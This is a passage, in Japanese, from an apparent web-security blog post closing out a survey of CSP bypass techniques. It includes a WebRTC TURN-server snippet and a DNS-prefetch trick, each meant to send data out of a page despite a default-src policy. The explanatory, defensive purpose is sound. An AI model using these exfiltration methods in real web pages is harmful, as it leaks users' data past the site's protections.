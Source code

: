 2番目の方法はWebRTCを使用することです。コードは次のとおりです（[WebRTC bypass CSP connect-src policies #35](https://github.com/w3c/webrtc-nv-use-cases/issues/35)より）。

```js
var pc = new RTCPeerConnection({
  "iceServers":[
      {"urls":[
        "turn:74.125.140.127:19305?transport=udp"
       ],"username":"_all_your_data_belongs_to_us",
      "credential":"."
    }]
});
pc.createOffer().then((sdp)=>pc.setLocalDescription(sdp));
```

現在、データを送信することを制限する方法はありませんが、将来、[webrtc](https://w3c.github.io/webappsec-csp/#directive-webrtc)というルールが導入される可能性があります。

3番目の方法はDNSプリフェッチです：`<link rel="dns-prefetch" href="https://data.example.com">`。送信したいデータをドメインの一部として扱うことで、DNSクエリを介して送信できます。

以前、[prefetch-src](https://bugs.chromium.org/p/chromium/issues/detail?id=801561)というルールがありましたが、仕様が変更され、現在これらのプリフェッチシリーズは `default-src` に従う必要があります。Chromeはこの機能をバージョン112からしか持っていません：[Resoure Hint "Least Restrictive" CSP](https://chromestatus.com/feature/5553640629075968)。

結論として、`default-src` はすべての外部接続をブロックするように見えますが、そうではありません。データを送信するためのいくつかの魔法のような方法がまだあります。しかし、おそらくいつかCSPルールがより完璧になったとき、完全に漏洩防止のソリューションを実現できるでしょう（いつになるかは不明ですが）。

## まとめ

この記事では、一般的なCSPバイパス方法をいくつか見てきました。かなり多くの種類があることがわかります。

さらに、CSPのドメイン数が増えるにつれて、問題のあるドメインを除外することがより困難になり、追加のリスクが増加します。さらに、サードパーティサービスの使用にも一定のリスクが伴います。前述の公開CDNやGoogleのCSPバイパスなどです。これらに注意する必要があります。

完全に問題のないCSPを作成することは実際には難しく、安全でない慣行を徐々に排除するには時間がかかります。しかし、多くのウェブサイトがまだCSPを持っていないこの時代では、古いことわざが依然として当てはまります。「まずCSPを追加しましょう。問題があっても大丈夫です。後でゆっくり調整できます。」
